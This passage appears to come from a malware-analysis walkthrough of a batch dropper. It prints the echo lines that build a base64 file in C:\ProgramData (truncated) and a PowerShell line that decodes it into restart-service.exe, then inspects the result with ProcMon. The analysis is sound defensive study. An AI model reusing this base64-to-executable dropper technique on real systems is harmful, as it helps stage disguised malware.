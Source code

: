     echo TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA > c:\programdata\oracle.txt
    echo AAAAAAAAAAgAAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4g >> c:\programdata\oracle.txt
    <SNIP>
    echo AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA >> c:\programdata\oracle.txt

    echo $salida = $null; $fichero = (Get-Content C:\ProgramData\oracle.txt) ; foreach ($linea in $fichero) {$salida += $linea }; $salida = $salida.Replace(" ",""); [System.IO.File]::WriteAllBytes("c:\programdata\restart-service.exe", [System.Convert]::FromBase64String($salida)) > c:\programdata\monta.ps1
    ```

    * After executing the batch script by double-clicking on it, we wait a few minutes to spot the `oracle.txt` file which contains another file full of base64 lines, and the script `monta.ps1` which contains the following content, under the directory `c:\programdata\`.
    * Listing the content of the file `monta.ps1` reveals the following code

    ```powershell-session
    cat C:\programdata\monta.ps1
    ```

    ```powershell-session
    $salida = $null; $fichero = (Get-Content C:\ProgramData\oracle.txt) ; foreach ($linea in $fichero) {$salida += $linea }; $salida = $salida.Replace(" ",""); [System.IO.File]::WriteAllBytes("c:\programdata\restart-service.exe", [System.Convert]::FromBase64String($salida))
    ```

    * This script simply reads the contents of the `oracle.txt` file and decodes it to the `restart-service.exe` executable.
    * Running this script gives us a final executable that we can further analyze.

    ```powershell-session
     ls C:\programdata\
    ```

    ```powershell-session

    Mode                LastWriteTime         Length Name
    <SNIP>
    -a----        3/24/2023   1:01 PM            273 monta.ps1
    -a----        3/24/2023   1:01 PM         601066 oracle.txt
    -a----        3/24/2023   1:17 PM         432273 restart-service.exe
    ```

    * Now when executing `restart-service.exe` we are presented with the banner `Restart Oracle` created by `HelpDesk` back in 2010.
    * Inspecting the execution of the executable through `ProcMon64` shows that it is querying multiple things in the registry and does not show anything solid to go by.
    *

        <figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
